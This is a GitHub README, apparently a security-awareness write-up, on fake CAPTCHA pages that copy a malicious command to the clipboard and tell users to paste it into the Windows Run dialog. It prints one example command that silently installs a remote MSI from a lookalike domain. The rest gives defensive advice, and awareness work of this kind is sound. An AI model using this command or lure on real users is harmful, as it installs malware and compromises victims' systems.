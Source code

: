 # CAPTCHA Social Engineering Attack – A Silent Threat You Should Know About

<!-- Optional GitHub Banner Image URL -->

![captcha social engineering](https://github.com/user-attachments/assets/bd9416a2-6672-4344-bf6c-eb65180158cc)


## 📖 Overview

In today’s cybersecurity landscape, attackers are becoming smarter and using creative ways to trick unsuspecting users. One such dangerous and deceptive technique is called a **CAPTCHA Social Engineering Attack** — a method that abuses the familiar "I'm not a robot" CAPTCHA to compromise your system.

---

## ⚙️ How This Attack Works

1. You visit a suspicious or malicious website.
2. The site shows a seemingly legitimate CAPTCHA — similar to Google or Cloudflare’s human verification.
3. Believing it’s genuine, you click the CAPTCHA checkbox.
4. **Silently, a malicious command gets copied into your clipboard** without your knowledge. Example:

```
msiexec /qn /i https://clloudsverify.com/o.msi
```

5. Then you see a message like this:

> "To complete the verification process, press **Win + R**, then **Ctrl + V**, and hit Enter."

6. Once you obey:

   * **Win + R** opens the Run dialog.
   * **Ctrl + V** pastes the malicious command.
   * **Enter** executes it.

This installs malware silently — no alerts, no warnings.

---

## 🎯 Why This Attack is Dangerous

* **Trust Exploitation**: Users assume CAPTCHA equals safety.
* **Clipboard Hijacking**: Code is injected silently.
* **Social Engineering**: Users are tricked into executing commands.
* **Stealthy Execution**: The command uses Windows Installer (`msiexec`) in quiet mode (`/qn`) to avoid detection.

---

## 💥 Potential Impacts

* ⚠️ Full system compromise
* ⚠️ Theft of credentials, files, personal data
* ⚠️ Installation of Remote Access Trojans (RATs)
* ⚠️ Long-term backdoor access for attackers

---

## 🛡️ How to Protect Yourself

✅ **Never follow online instructions** asking you to use Win + R and paste commands.

✅ **Always check clipboard content** before pasting — open Notepad, press Ctrl + V, and inspect.

✅ **Avoid unknown or suspicious websites**.

✅ **Keep security software updated**.

✅ **Educate others** about such modern social engineering methods.

---

## 🚫 Important Reminder

Just because a CAPTCHA appears doesn’t mean a site is trustworthy. Fake CAPTCHAs can easily be weaponized for such attacks.

> **Stay alert. Stay secure.** 🔐

---

## 📜 License

This project is licensed under the **MIT License** — see the [LICENSE](LICENSE) file for details.

---

## 🏷️ GitHub Topics

`cybersecurity` `social-engineering` `clipboard-attack` `malware` `security-awareness` `hacking` `information-security` `cyber-threats`

---

## 🙌 Contributions

Contributions, suggestions, and improvements are welcome. Feel free to open an Issue or Pull Request.

---

## 🔗 Author

**Jahid Hasan**
[LinkedIn](https://www.linkedin.com/in/jahid-hasan-antor) | [GitHub](https://github.com/AntorDOS)


---

*This repository is intended for educational and awareness purposes only.*
